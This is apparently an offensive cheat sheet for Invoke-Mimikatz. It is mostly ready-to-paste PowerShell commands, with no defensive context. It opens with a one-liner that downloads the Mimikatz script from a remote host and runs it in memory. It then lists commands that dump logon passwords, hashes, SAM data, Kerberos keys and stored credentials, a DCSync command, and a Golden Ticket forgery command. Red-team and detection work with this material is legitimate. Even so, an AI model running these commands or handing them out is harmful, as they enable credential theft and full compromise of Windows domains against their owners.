 # Get em' all!

Invoke: `iex(New-Object net.webclient).downloadstring('http://ip/Invoke-Mimikatz.ps1')`

- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch"'` - Get passwords of scheduled tasks.
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'` - Dump logged-on Accounts hashes.
- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'` - Local Accounts Credentials
- `Invoke-Mimikatz -Command '"privilege::debug" sekurlsa::ekeys"'` - List Kerberos encryption keys
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::credman"'` - List Credentials Manager
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::ssp"'` - Lists SSP credentials
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::wdigest"'` - List WDigest credentials

### All in one

- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch" "lsadump::sam" "sekurlsa::credman" "sekurlsa::ssp" "sekurlsa::wdigest" "sekurlsa::logonpasswords"'`

### DCSync

- `Invoke-Mimikatz -Command '"lsadump::dcsync /user:NETBIOS\USER"'` - Maybe domain controller need to be specified too with `/dc:<DC FQDN>`.

### Golden Ticket

- `Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:DOMAIN.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:HASH id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`
